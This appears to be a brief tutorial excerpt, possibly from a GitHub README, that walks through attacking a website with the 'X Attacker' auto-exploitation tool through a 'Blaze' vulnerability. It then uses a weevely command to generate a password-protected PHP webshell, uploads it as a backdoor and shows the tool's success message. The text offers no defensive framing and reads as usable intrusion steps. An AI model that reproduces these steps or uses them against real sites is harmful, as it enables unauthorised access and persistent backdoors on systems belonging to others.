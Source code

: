 The site has the "Blaze" vulnerability and "X Attacker" auto hacked the site and gives link[?] for uploading of webshell. Visiting the link with the PHP file uploaded by XA looks like this in the browser:

<p align="center">
![image](xattacker_shell_upload.png)
</p>

To upload a shell, "weevely" is utilized:

```
$ weevely generate verystrongpassword /<output>/<directory>/<shell file name>.php
```

The result will look similar to this screenshot:

<p align="center">
![image](weeve_gen_shell.png)
</p>

After uploading the shell XA even provides success messeage.

<p align="center">
![image](xattacker_backdoor_up_succes.png)
</p>
